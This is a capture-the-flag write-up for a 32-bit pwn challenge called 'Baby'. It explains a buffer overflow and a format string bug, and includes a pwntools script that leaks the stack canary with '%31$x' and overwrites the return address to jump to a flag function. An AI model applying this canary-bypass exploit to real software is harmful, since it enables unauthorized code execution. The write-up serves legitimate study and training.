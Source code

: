 # Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.
<br>
![](./1.png)
<br>
32 bit binary with canary<br>
Partial RELRO possible got.plt overwrite?
<br>
![](./2.png)
<br>
Location of stack canary(ebp-0xc):
<br>
![](./3.png)
<br>
Using format string exploit which the canary value is shown on the 31th
<br>
![](./4.png)
<br>
Canary value:
<br>
![](./5.png)
<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html
<br>
![](./6.png)
<br>
Getting flag() address from ghidra(0x080491d2):
<br>
![](./7.png)
<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)
<br>
![](./8.png)
<br>
